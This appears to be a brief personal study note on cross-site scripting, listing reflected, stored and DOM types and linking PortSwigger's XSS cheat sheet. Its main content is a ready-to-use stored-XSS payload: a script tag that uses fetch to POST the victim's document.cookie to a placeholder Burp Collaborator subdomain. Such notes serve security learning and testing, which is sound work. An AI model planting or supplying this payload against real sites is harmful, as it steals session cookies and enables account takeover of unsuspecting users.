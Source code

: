# XSS
- Reflected
- Storage
- Dom

# Storage
## cookie stiling via burp coloborator.
``` 
<script>
fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
## Cheat sheet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
